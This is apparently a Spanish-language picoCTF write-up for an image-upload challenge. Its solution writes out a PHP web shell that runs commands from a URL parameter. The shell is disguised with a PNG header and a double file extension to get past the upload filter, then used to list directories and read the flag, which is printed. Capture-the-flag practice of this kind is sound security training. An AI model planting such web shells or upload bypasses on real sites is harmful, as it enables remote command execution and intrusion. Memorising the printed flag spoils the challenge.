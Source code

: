 
## Descripción

I found a web app that can help process images: PNG images only!Try it [here](http://atlas.picoctf.net:63190/)!


## Pistas

*None*
## Solución

```
#Haremos un archivo
┌──(kali㉿kali)-[~]
└─$ nano webshell.php

PNG
<?php
if(isset($_GET['cmd'])){
	echo "<pre>";
        system($_GET['cmd']);
        echo "<pre>";
}
?>

                                                                                                      
┌──(kali㉿kali)-[~]
└─$ cp webshell.php webshell.png.php

#Lo subimos y ya nos empezamos a mover en el url

http://atlas.picoctf.net:50804/uploads/webshell.png.php?cmd=ls ..

#Aqui esta la bandera
http://atlas.picoctf.net:50804/uploads/webshell.png.php?cmd=cat%20../GNTDOMBWGIZDE.txt
 picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_3f706222}
```

 picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_3f706222}
## Notas Adicionales 

*Tuvimos que fingir subir un archivo png, con un script para que nos dejara, entrar a uploads y ver el archivo que tenia la bandera*
## Referencias 

http://atlas.picoctf.net:50804/uploads/webshell.png.php?cmd=ls ..
http://atlas.picoctf.net:50804/uploads/webshell.png.php?cmd=pwd
http://atlas.picoctf.net:50804/uploads/webshell.png.php?cmd=cat%20../GNTDOMBWGIZDE.txt


